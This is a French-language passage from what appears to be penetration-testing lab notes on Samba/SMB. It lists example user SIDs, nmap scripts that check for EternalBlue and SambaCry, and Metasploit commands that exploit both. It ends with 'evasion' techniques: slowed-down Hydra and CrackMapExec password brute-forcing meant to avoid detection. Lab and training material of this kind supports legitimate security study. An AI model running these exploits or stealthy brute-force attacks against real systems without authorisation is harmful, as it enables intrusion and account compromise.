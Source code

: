 ### SID Format typique
```
Format: S-1-22-1-XXXX
Exemples du lab:
shawn: S-1-22-1-1000
jane:  S-1-22-1-1001  
nancy: S-1-22-1-1002
admin: S-1-22-1-1003
```

---

## Phase 8: Vulnérabilités Samba spécifiques

### Tests de vulnérabilités communes
```bash
# EternalBlue (MS17-010)
nmap --script smb-vuln-ms17-010 -p 445 <target>

# CVE-2017-7494 (SambaCry)
nmap --script smb-vuln-cve-2017-7494 -p 445 <target>

# Autres vulnérabilités
nmap --script smb-vuln* -p 445 <target>
```

### Exploitation avec Metasploit
```bash
# MS17-010 EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target>
exploit

# SambaCry
use exploit/linux/samba/is_known_pipename
set RHOSTS <target>
exploit
```

---

## Phase 9: Techniques d'évasion et persistance

### Contournement de détection
```bash
# Hydra avec délais
hydra -l admin -P passwords.txt <target> smb -W 5 -t 1

# CrackMapExec avec options furtives
crackmapexec smb <target> -u admin -p passwords.txt --delay 2
```
